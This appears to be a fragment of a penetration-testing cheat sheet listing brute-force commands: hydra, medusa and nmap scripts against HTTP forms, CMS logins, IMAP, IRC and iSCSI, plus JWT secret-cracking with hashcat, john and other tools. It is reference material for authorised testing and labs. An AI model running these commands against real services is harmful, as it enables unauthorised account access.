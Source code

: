 medusa -h <IP> -u <username> -P  <passwords.txt> -M  http -m DIR:/path/to/auth -T 10

HTTP - Post Form

hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb  http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V

# Use https-post-form mode for https

For https you have to change from "http-post-form" to "https-post-form"

HTTP - CMS -- (W)ordpress, (J)oomla or (D)rupal or (M)oodle

cmsmap -f W/J/D/M -u a -p a [https://wordpress.com](https://wordpress.com)

IMAP

hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V

hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f <IP> imap -V

nmap -sV --script imap-brute -p <PORT> <IP>

IRC

nmap -sV --script irc-brute,irc-sasl-brute --script-args userdb=/path/users.txt,passdb=/path/pass.txt -p <PORT> <IP>

ISCSI

nmap -sV --script iscsi-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 3260 <IP>

JWT

#hashcat

hashcat -m 16500 -a 0 jwt.txt .\wordlists\rockyou.txt

#https://github.com/Sjord/jwtcrack

python crackjwt.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc /usr/share/wordlists/rockyou.txt

#John

john jwt.txt --wordlist=wordlists.txt --format=HMAC-SHA256

#https://github.com/ticarpi/jwt_tool

python3 jwt_tool.py -d wordlists.txt <JWT token>

#https://github.com/brendan-rius/c-jwt-cracker

./jwtcrack eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc 1234567890 8

#https://github.com/mazen160/jwt-pwn

python3 jwt-cracker.py -jwt eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc -w wordlist.txt
